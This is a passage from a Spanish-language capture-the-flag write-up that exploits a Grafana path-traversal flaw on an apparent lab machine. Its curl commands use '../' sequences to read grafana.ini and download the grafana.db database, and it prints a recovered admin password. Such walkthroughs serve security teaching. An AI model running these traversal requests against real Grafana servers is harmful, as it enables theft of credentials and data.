 Usuarios que nos pueden interesar, ya que tienen asignada una *bash*, son *developer* y *root*.

En un sistema *Linux*, los **archivos de configuración** de *Grafana* se suelen encontrar en dos directorios:

* */etc/grafana*. Esta carpeta contiene archivos como *grafana.ini* (archivo de configuración principal), *custom.ini* (para agregar configuraciones personalizadas) y *provisioning* (que contiene configuraciones de recursos).

* */var/lib/grafana*. Los paneles y *dashboards* creados por los usuarios se almacenan en esta carpeta de datos. Si se está utilizando *SQLite*, la base de datos se encuentra también en esta carpeta. El nombre del archivo es *grafana.db*.

Empezaremos listando el contenido del archivo ***grafana.ini***, que como hemos dicho se encuentra en la ruta */etc/grafana* y contiene la **configuración principal**:

```bash
curl http://10.10.11.183:3000/public/plugins/piechart/../../../../../../../../../../../../../etc/grafana/grafana.ini --path-as-is > grafana.ini
```

Encontraremos la siguiente **credencial** en el archivo:

![imagen 4](Pasted image 20230127002802.png)

Se trata de la contraseña del usuario *admin*. Podemos utilizar las credenciales *admin:messageInABottle685427* en el panel de *login* para acceder al servicio.

El *dashboard* tiene el siguiente aspecto:

![imagen 5](Pasted image 20230127003017.png)

Aunque el aplicativo ofrece una gran cantidad de funcionalidades, no lograremos extraer información que nos pueda interesar. 

Recordemos que en la ruta */var/lib/grafana/* se encuentra la base de datos de *Grafana*, en el caso de que esté utilizando ***SQLite***. Vamos a intentar bajarnos el archivo:

```bash
curl http://10.10.11.183:3000/public/plugins/welcome/../../../../../../../../../../../../../var/lib/grafana/grafana.db --path-as-is > grafana.db
```

El archivo descargado tiene el siguiente formato:

```bash
grafana.db: SQLite 3.x database, last written using SQLite version 3035004
```

### Inspeccionando base de datos 

Para interactuar con la base de datos *SQLite* emplearemos la herramienta *SQLite3*. A continuación se presentan algunos comandos básicos de *SQLite3*:

* `sqlite3 nombre_bd.db`: Abre una base de datos existente.
* `.tables`: Muestra las tablas existentes en la base de datos.
* `.schema nombre_tabla`: Muestra la estructura de una tabla específica.
* `SELECT * FROM nombre_tabla;`: Selecciona todos los datos de una tabla específica.
* `.exit`: Salir de *SQLite3*.
